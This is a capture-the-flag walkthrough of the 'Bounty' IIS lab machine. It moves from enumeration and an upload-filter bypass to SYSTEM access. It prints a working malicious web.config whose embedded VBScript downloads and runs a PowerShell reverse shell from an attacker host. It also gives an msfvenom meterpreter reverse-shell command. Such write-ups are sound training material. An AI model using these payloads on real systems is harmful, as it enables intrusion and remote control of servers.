# Bounty - Penetration Testing Walkthrough (Extended Markdown Report)

This document presents a comprehensive walkthrough of the **Bounty** machine (IP: `10.129.60.101`).  
The report follows the standard penetration testing workflow — from enumeration and web exploitation to shell access and privilege escalation.  
All referenced screenshots are linked as `images/imageX.png` for convenience.

---

## 🧭 Enumeration

We began our assessment with a standard **Nmap** scan to identify open ports and active services on the target:

```bash
nmap -p- -Pn 10.129.60.101 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.60.101 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.60.101 -v --script vuln -oN nmap_vuln.txt
```



The Nmap results revealed **HTTP (port 80)** as the only open port, running an IIS web server.  
This indicated the target was likely a **Windows-based IIS web application**.

---

## 🌐 Web Enumeration

Visiting `http://10.129.60.101/` displayed a static website:



The website contained a **banner image**, which was downloaded for local analysis.  
Running **ExifTool** on the image might reveal metadata or embedded information that could serve as a lead for exploitation.

We also performed directory brute-forcing with **ffuf**:

```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/raft-medium-directories.txt:FUZZ -u http://10.129.60.101/FUZZ -s
```



Several directories were discovered, but the most interesting one was a file upload endpoint at `/transfer`.

---

## 🧩 File Upload Enumeration

We next tested the `/transfer` endpoint for upload functionality and found it allowed **file uploads**, but restricted executable extensions such as `.asp`, `.aspx`, and `.php`.



After discovering this limitation, research led us to a helpful IIS exploitation reference:  
🔗 [Ivoid Warranties: IIS Web.config Exploitation](https://www.ivoidwarranties.tech/posts/pentesting-tuts/iis/web-config/)

This technique allows uploading a malicious **web.config** file that instructs the server to interpret `.config` files as executable ASP scripts.

---

## ⚙️ Crafting the Exploit Payload

To gain a reverse shell, we utilized the **Invoke-PowerShellTcp.ps1** script (part of Nishang framework).  
We modified the last line of the script to call our attacker’s IP:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.15.30 -Port 4444
```

Then we created a malicious **web.config** file that executes arbitrary PowerShell commands on upload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
  <system.webServer>
    <handlers accessPolicy="Read, Script, Write">
      <add name="web_config" path="*.config" verb="*" modules="IsapiModule"
           scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified"
           requireAccess="Write" preCondition="bitness64" />
    </handlers>
    <security>
      <requestFiltering>
        <fileExtensions>
          <remove fileExtension=".config" />
        </fileExtensions>
        <hiddenSegments>
          <remove segment="web.config" />
        </hiddenSegments>
      </requestFiltering>
    </security>
  </system.webServer>
</configuration>

<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.15.30:8000/Invoke-PowerShellTcp.ps1')")
%>
```

---

## 📡 Exploitation - Upload and Reverse Shell

We hosted the PowerShell script locally using Python:

```bash
python3 -m http.server 8000
```

Then uploaded the `web.config` file through the `/transfer` page.  
Navigating to `/uploadedfiles/web.config` triggered execution.





A reverse shell successfully connected back to our listener.  
Inside the shell, we found the **user flag** on the desktop (hidden file, required `ls -force`).

---

## 🧨 Privilege Escalation

To escalate privileges, we generated a **Meterpreter payload** with **msfvenom**:

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.15.30 LPORT=4446 -f exe -o shell.exe
```



We then executed it on the compromised system to gain a more stable shell through **Metasploit**.

With the session established, we used the **local exploit suggester** to identify privilege escalation vectors:



The tool suggested multiple potential exploits; we executed **#12**, which successfully elevated privileges to **NT AUTHORITY\SYSTEM**.



---

## 🏁 Root Access

With system-level access achieved, we navigated to the Administrator’s desktop to retrieve the root flag:

```
C:\Users\Administrator\Desktop\root.txt
```



---

## ✅ Conclusion

This engagement demonstrated a realistic IIS-based attack chain leveraging file upload misconfigurations and privilege escalation.  
The successful compromise followed this sequence:

1. **Enumeration** — Discovered IIS on port 80.  
2. **Web Discovery** — Found `/transfer` upload endpoint.  
3. **Payload Crafting** — Used malicious `web.config` with PowerShell reverse shell.  
4. **Initial Foothold** — Gained user-level access.  
5. **Privilege Escalation** — Leveraged local exploit via Meterpreter.  
6. **Full Compromise** — Achieved `NT AUTHORITY\SYSTEM` and retrieved the root flag.

---

## 🧰 Summary of Tools & Exploits Used

| **Tool / Technique** | **Purpose** | **Usage Phase** |
|-----------------------|-------------|-----------------|
| **Nmap** | Network and port enumeration | Initial Scanning |
| **ExifTool** | Analyze metadata in web assets | Reconnaissance |
| **ffuf** | Directory brute-forcing | Web Enumeration |
| **Invoke-PowerShellTcp.ps1** | Reverse shell payload | Exploitation |
| **web.config Payload** | IIS web.config-based RCE | Exploitation |
| **Python HTTP Server** | Serve reverse shell payload | Exploitation |
| **msfvenom** | Generate Meterpreter payload | Privilege Escalation |
| **Metasploit (Local Exploit Suggester)** | Identify local privilege escalation | Post-Exploitation |
| **Meterpreter** | Stable post-exploitation shell | Root Access |

---

**User Flag Path:** `C:\Users\merlin\Desktop\user.txt`  
**Root Flag Path:** `C:\Users\Administrator\Desktop\root.txt`

---
